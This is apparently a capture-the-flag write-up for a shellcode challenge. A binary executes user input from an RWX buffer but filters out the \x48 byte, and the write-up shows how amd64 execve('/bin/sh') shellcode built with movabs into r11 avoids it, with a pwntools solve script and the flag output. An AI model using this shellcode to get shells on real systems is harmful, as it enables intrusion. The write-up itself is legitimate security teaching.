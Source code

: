 # level-1

## Introduction

A pwnable passed down from my mentor, @huckfinn. This problem focuses on
creating shellcode with certain bad bytes. The objective is to get a shell
without using the hex byte `\x48`.

## Information Gathering

### Hint #1

> This program will literally do anything you want it to do (as long as you
don't use the `\x48` byte).

```shell
$ checksec ./level-0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Dynamic

This program behaves in the same manner as the previous [level][level].

### Static

We threw the program in Ghidra and this was the result after some cleanup.

```c
int main(void){
  code *__buf;
  ssize_t sVar1;
  code *pcVar2;

  init_chal();
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  sVar1 = read(0,__buf,0x1000);
  if (sVar1 != 0) {
    pcVar2 = __buf;
    do {
      if (*pcVar2 == (code)0x48) {
        *pcVar2 = (code)0xff;
      }
      pcVar2 = pcVar2 + 1;
    } while (pcVar2 != __buf + sVar1);
  }
  (*__buf)();
  return 0;
}
```

This is the same as the previous [level][level] except for the do-while loop
that compares each byte with `\x48` and replaces it with `\xff`. Below is a
rehash of the same description as [level-0][level]:

Notably, the `main` function is `mmap`ing the region of memory where `buf` is
with the following arguments: `mmap(addr=NULL, length=0x1000, prot=0x7,
flags=0x22, fd=0xfffffff, offset=0x0)`

The prot (protections) argument describes the desired memory protection of the
mapping. It is a bitwise OR of one or more of the following flags:

```c
#define PROT_READ	  0x1		/* page can be read */
#define PROT_WRITE    0x2       /* page can be written */
#define PROT_EXEC	  0x4		/* page can be executed */
#define PROT_SEM	  0x8		/* page may be used for atomic ops */
#define PROT_NONE	  0x0		/* page can not be accessed */
```

With a prot bitmask of 0x7 the memory location is set to read, write, and
execute. The combination of the latter two are particularly interesting when we
see that it is actually executing the contents of `buf` as though there are
instructions there. There currently aren't, but could there be?

Yes! We just need to send the program some shellcode to execute.

## Strategy

We attempted to use the shellcraft module to generate the shellcode, just as in
[level-0][level]. There is an [encoding][encoders] functionality such that we
could specify that `\x48` is a bad byte and should be avoided. Unfortunately,
we were unable to create shellcode this way. The module simply reported that it
was not possible with its current functionality. Compiling bits of assmembly and
taking a look at the opcodes for amd64, we found that the `\x48` byte was
generally created when we tried to use the `mov` instruction into one of the
base amd64 registers. We learned that we could avoid the `\x48` byte by using
the `movabs` instruction into one of the amd64 extended registers (ie, `$r11`).
We thus used the following shellcode, inspired by a [blog post][blog] we found
that was attempting to create really short shellcode.

```asm
0:   31 f6                   xor    esi,esi                 /* zero out register */
2:   56                      push   rsi                     /* push to top of stack */
3:   49 bb 2f 62 69 6e 2f    movabs r11,0x68732f2f6e69622f  /* move /bin/sh into r11 */
a:   2f 73 68
d:   41 53                   push   r11                     /* /bin/sh top of stack */
f:   54                      push   rsp                     /* memory location of /bin/sh top of stack */
10:   5f                     pop    rdi                     /* edi now contains the address of /bin/sh */
11:   b8 00 00 00 00         mov    eax,0x0                 /* mov 0 into rax */
16:   b0 3b                  mov    al,0x3b                 /* move execve sys call into rax */
18:   0f 05                  syscall                        /* call our execve */
```

We added this to our solution and created the byte string needed to send to the
program:

```python
shellcode = """
/* push argument into rsi (second argument to execve) */
xor esi, esi                /* zero out register */
push rsi                    /* push to top of stack */

/* set up first argument */
mov r11, 0x68732f2f6e69622f /* move /bin/sh into r11 */
push r11                    /* /bin/sh top of stack */
push rsp                    /* memory location of /bin/sh top of stack */
pop rdi                     /* edi contains the address of /bin/sh */

/* set up third argument */
mov eax, 0x0                /* mov 0 into rax */
mov al, 0x3b                /* move execve sys call into rax */

/* call our execve */
syscall
"""

io.sendline(asm(shellcode))

# Get the flag.
io.sendline('cat flag.txt')
flag = io.recv()
```

## The Solution

You should be able to run the script like so and get the flag!

```shell
$ python3 ./solve.py
[+] Flag: b'flag{AreYouTryingToTellMeICanDodgeBullets?}\n'
[+] Time: Time: 0.10761523246765137
```

## Mitigations

I won't even discuss exploitation mitigations since the developers purposefully
made `buf` RWX. :)

[encoders]: https://docs.pwntools.com/en/stable/encoders.html
[level]: /random-pwnables/level-0/README.md
[blog]: https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html
